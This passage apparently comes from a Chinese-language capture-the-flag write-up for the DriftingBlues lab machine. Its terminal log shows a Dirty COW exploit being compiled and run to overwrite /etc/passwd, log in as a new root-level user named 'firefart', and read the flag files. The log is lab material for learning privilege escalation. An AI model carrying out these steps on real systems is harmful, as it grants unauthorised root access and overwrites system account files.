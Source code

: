 搜一下相关方法：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427841.png" alt="image-20240412142247054" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427842.jpg" alt="VeryCapture_20240412142331" style="zoom:50%;" />

尝试按照上面的方式进行利用：

```bash
(remote) www-data@driftingblues:/tmp$ gcc exp.c -o exp -lpthread
/tmp/cc3KdcQ8.o: In function `generate_password_hash':
exp.c:(.text+0x1e): undefined reference to `crypt'
collect2: error: ld returned 1 exit status
(remote) www-data@driftingblues:/tmp$ gcc exp.c -o exp -lpthread -lcrypt
(remote) www-data@driftingblues:/tmp$ ls
exp  exp.c  linpeas.sh  pspy64
(remote) www-data@driftingblues:/tmp$ chmod +x exp
(remote) www-data@driftingblues:/tmp$ ./exp
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: 7ff516e18000
whoami
^C
(remote) www-data@driftingblues:/tmp$ su root
No passwd entry for user 'root'
(remote) www-data@driftingblues:/tmp$ su firefart
Password: 
firefart@driftingblues:/tmp# whoami;id
firefart
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:/tmp# cd /root
firefart@driftingblues:~# ls -la
total 24
drwx------  3 firefart root 4096 Mar 17  2021 .
drwxr-xr-x 23 firefart root 4096 Mar 17  2021 ..
drwx------  2 firefart root 4096 Mar 17  2021 .aptitude
-rw-------  1 firefart root   45 Mar 17  2021 .bash_history
-r-x------  1 firefart root   32 Mar 13  2021 root.txt
-r-x------  1 firefart root   32 Mar 13  2021 user.txt
firefart@driftingblues:~# cat .bash_history 
ls
bash logdel2 
rm logdel2 
shutdown -h now
firefart@driftingblues:~# cat .aptitude/
cat: .aptitude/: Is a directory
firefart@driftingblues:~# cat root.txt 
CCAD89B795EE7BCF7BBAD5A46F40F488firefart@driftingblues:~# cat user.txt 
5355B03AF00225CFB210AE9CA8931E51firefart@driftingblues:~# cd .aptitude/
firefart@driftingblues:~/.aptitude# ls -la
total 8
drwx------ 2 firefart root 4096 Mar 17  2021 .
drwx------ 3 firefart root 4096 Mar 17  2021 ..
-rw-r--r-- 1 firefart root    0 Mar 17  2021 config
firefart@driftingblues:~/.aptitude# cat config
firefart@driftingblues:~/.aptitude# 
```
